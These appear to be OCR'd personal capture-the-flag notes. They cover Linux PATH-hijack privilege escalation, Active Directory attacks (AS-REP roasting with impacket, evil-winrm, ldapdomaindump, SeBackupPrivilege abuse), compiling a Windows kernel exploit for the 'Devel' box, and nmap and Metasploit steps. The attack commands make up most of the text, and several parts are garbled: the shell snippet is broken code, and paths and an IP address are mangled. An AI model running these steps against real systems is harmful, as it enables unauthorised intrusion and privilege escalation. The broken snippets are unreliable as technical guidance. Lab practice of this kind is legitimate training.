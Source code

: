 •	We can print the current PATH by using echo $PATH
•	Create the fake date that include the malisons code by using nano text editor
•	By using the following code, we can get a shell for the hire privilege user:
import OS
bash -y
•	Change the mode of the file to be executable by typing chmod +x date
•	Change the PATH by typing export PATH=/home/rabbit:$PATH


impacket-GetNPUsers fusion.corp/ -usersfile user.txt -no-pass -dc-ip <IP>
evil-winrm /evil-winrm.rb -I <IP> -u lparker -p <password>
ldapdomaindump <IP> -u ‘fusion.corp\lparker’ -p ‘password’

https://github.com/giuliano108/SeBackupPrivilege
copy-fileSeBackupPrivilege c:\Users\Administrator\Desktopflag.txt c:/Users\jmurphy\flag.txt
















######################################################################################################
Devel

windows/remote/19033.txt


FTP
get - download from FTP server
put - upload from FTP server

compile 
sudo apt-get install gcc-mingw-w64
i686-w64-mingw32-gcc-win32 input_code.c -lws2_32 -o output.exe
i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
shell


In order to support BIOS service routines in legacy 16bit applications, the
Windows NT Kernel supports the concept of BIOS calls in the Virtual-8086 mode
monitor code. These are implemented in two stages, the kernel transitions to
the second stage when the #GP trap handler (nt!KiTrap0D) detects that the
faulting cs:eip matches specific magic values


###################################################################################################


nmap
Nmap -sV(version) -sS(SYN) 909.12….

Metasploit
msfconsole(start)
search icecast(target)
`use icecast` or `use 0` (select this module)
show options
